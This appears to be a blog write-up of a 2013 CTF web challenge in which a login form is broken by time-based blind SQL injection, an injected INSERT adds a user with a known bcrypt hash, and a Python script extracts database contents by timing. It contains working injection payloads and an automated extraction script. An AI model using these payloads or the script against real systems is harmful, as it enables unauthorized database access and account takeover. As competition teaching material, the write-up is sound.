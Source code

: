 ```yaml
---
layout: post
title: "ASIS CTF Finals 2013 Login"
description: ""
category: writeup
tags: [ASIS CTF Finals 2013, web]
---
```

{% include JB/setup %}

Description

	Login
	
	Points	350		Level	1	Solves	5
	
	Description
	78.38.193.187
	
	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG


All you can see is a login form, it always has some SQL injection problem.

After a lot of testing, finally we find a time-based blind injection in the username.

Using
	
	1' AND BENCHMARK(5000000,MD5(0x123)) AND ''='
	
then we start to using sqlmap to deal with it, but it is too slow and show some mistakes.

One of my friend write a python script to solve it, then we find some useful infomation. There are three database:

	information_schema
	sqli_db
	test
	
Obviously, sqli_db is suspicious, let's see what it has.

	users
	
It only has a table named users.

	user_id
	user_name
	user_email
	user_password_hash
	
At the beginning, we trying to fetch some data from it, but it is empty, some time later, we fetch a string from user_password_hash.

	$2y$10$gyI0vxnE3ZncmdLNGVmwTew/aPwBZPY4cEMCRENAjN4?0l8iu9O5R6iW

Just google "$2y$10", we find it is the head of PHP blowfish hash, but it seems that there is no way to get the original value from it.

At that time, the admin give a hint on this problem:

	Hint:
	$2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
	
At the same time, we find that the table users suddenly become empty. It inspire us to try INSERT.

	';insert into users values (333,'hqd','1','1@1.com');select '

And it works!

Then it is so easy, just INSERT the correct hash value of a password u know it before, there is a php script can to do this.

	';insert into users values (333,'hqd','$2y$10$YTNlM2RiNmFiODgzZGM2YuYqP7NHnuZ31TyucetPJkODqia/XH5KC','1@1.com');select '
	
	#this is the blowfish hash value of 'admin'
	
Then just login use username:hqd and password:admin, then here is the flag.

	ASIS_9689926853009CAAD5BF824863077DC9

And taste the flavor of the first blood.

f.py

{% highlight python linenos%}
from httplib import HTTPConnection

HTTPConnection._http_vsn_str = 'HTTP/1.0'

def post_payload( payload ):
	conn = HTTPConnection( '78.38.193.187' )
	conn.putrequest( 'POST', '/', skip_accept_encoding=True, skip_host=True )
	conn.putheader( 'Content-Type', 'application/x-www-form-urlencoded' )
	conn.putheader( 'Content-Length', str(len(payload)) )
	conn.endheaders( message_body=payload )
	resp = conn.getresponse()
	resp.read()

from urllib import urlencode
from time import time

def get_bool( expression ):
	start = time()
	post_payload( urlencode( dict(
		login = '',
		user_password = ' ',
		user_name = "'OR if(%s,benchmark(1500000,md5(0)),0) AND''='" % expression,
	) ) )
	end = time()
	print 'Time:', end-start
	return end-start>0.95

def get_bit( expression ):
	return '1' if get_bool( expression ) else '0'

from itertools import count

def get_string( expression ):
	result = ''
	for i in count( start=1 ):
		char = ''
		for j in range(8)[::-1]:
			print 'Byte %d, Bit %d,' % (i,j),
			bit = get_bit( 'ascii(substr(%s,%d,1))>>%d&1' % ( expression, i, j ) )
			print bit
			char += bit
		char = int( char, 2 )
		if char == 0: break
		result += chr(char)
	return result

# def get_query( expression ):
	

# print get_string( 'database()' )
print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x73716c695f6462 LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=\'information_shema\' LIMIT 0,1)' )
# print get_string( '(SELECT IFNULL(CAST(COLUMN_NAME AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=\'users\' LIMIT 5,1)' )
# print get_string( '(SELECT CAST(COUNT(*) AS CHAR) FROM users)' )
# print get_string( '@@datadir' )
# print get_string( 'user()' )
# print get_string( 'version()' )


{% endhighlight %} 


a.php

Founded from [pastebin](http://pastebin.com/y9GKtx0b)

{% highlight php linenos%}

<?php
// demo = $2y$10$Zjk5YzQ4ZTlhMzNlNTUzMO3Wnm1FqXmAb6/4DmyptNGoEdWGLwls.
       
function password_encrypt($password) {
  $hash_format = "$2y$10$";   // Tells PHP to use Blowfish with a "cost" of 10
  $salt_length = 22;                    // Blowfish salts should be 22-characters or more
  $salt = generate_salt($salt_length);
  $format_and_salt = $hash_format . $salt;
  $hash = crypt($password, $format_and_salt);
    return $hash;
}
 
function generate_salt($length) {
  // Not 100% unique, not 100% random, but good enough for a salt
  // MD5 returns 32 characters
  $unique_random_string = md5(uniqid(mt_rand(), true));
    // Valid characters for a salt are [a-zA-Z0-9./]
  $base64_string = base64_encode($unique_random_string);
    // But not '+' which is valid in base64 encoding
  $modified_base64_string = str_replace('+', '.', $base64_string);
    // Truncate string to the correct length
  $salt = substr($modified_base64_string, 0, $length);
    return $salt;
}
 
function password_check($password, $existing_hash) {
    // existing hash contains format and salt at start
  $hash = crypt($password, $existing_hash);
  if ($hash === $existing_hash) {
    return true;
  } else {
    return false;
  }
}

echo password_encrypt('admin');
?>

{% endhighlight %} 